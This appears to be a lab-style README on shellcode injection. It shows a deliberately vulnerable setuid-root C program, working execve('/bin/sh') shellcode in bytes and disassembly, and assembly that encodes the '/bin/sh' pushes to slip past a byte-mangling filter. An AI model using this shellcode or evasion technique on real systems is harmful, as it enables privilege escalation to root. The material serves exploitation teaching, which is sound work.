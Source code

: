 # Shellcode Injection

## Task
The goal is to exploit the following simple program, when compiled with the following commands:
```
vijay@kali> cat vuln1.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {

  unsigned int i;
  char buf[256];

  strcpy(buf, argv[1]);
  for (i=0; i<256; i++) {
    if (((unsigned int)buf[i] >= 0x68) && ((unsigned int)buf[i] <= 0x6e)) {
      buf[i] = 'x';
    }
  }

  printf("Input: %s\n", buf);
  return 0;
}
vijay@kali> gcc -g -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vuln1 vuln1.c
vijay@kali> sudo chown root vuln1
vijay@kali> sudo chgrp root vuln1
vijay@kali> sudo chmod +s vuln1
```

The main challenge here is to use an appropriate shellcode that will withstand the mangling of the '/bin/sh' string by the for loop.

## Solution
### Instructions to run
```
# exploit vuln1.c
$ make clean && make vuln1
$ python exploit1.py
```

### Explanation
Here we need to encode the Opcodes and Operands of the shellcode to bypass the mangling of the shellcode in the for loop.
```
char *sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
           "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```
The above shellcode disassembles to the following assembly instructions:
```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f ; need to encode
8:  68 2f 62 69 6e          push   0x6e69622f ; need to encode
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 53                      push   ebx
11: 89 e1                   mov    ecx,esp
13: b0 0b                   mov    al,0xb
15: cd 80                   int    0x80
```
So we need to encode the above two instructions to bypass the mangling of shellcode inthe for loop. Please note that push opcode inthe above two instructions is \x68. So I encoded push instruction as well(This is not really required).

We can encode those instructions as shown below:
```
; encode push   0x68732f2f
xor     ebx, ebx
mov     ebx, 0xffffffff
sub     ebx, 0x978cd0d0 ; ebx now contains 0x68732f2f
sub     esp, 0x4        ; push ebx
mov     [esp], ebx

; encode push   0x6e69622f
xor     ebx, ebx
mov     ebx, 0xffffffff
sub     ebx, 0x91969dd0 ; ebx now contains 0x6e69622f
sub     esp, 0x4        ; push ebx
mov     [esp], ebx
```
Please refer to shellcode.asm for complete asm code. Compile shellcode.asm and extracted bytes from the shellcode.o
```
$ nasm -f elf shellcode.asm
$ objdump -d -M intel shellcode.o
```
Then I tested the shellcode using shell.c. Next, I crafted the payload to exploit the vulnerability. Please refer to exploit1.py for more details.
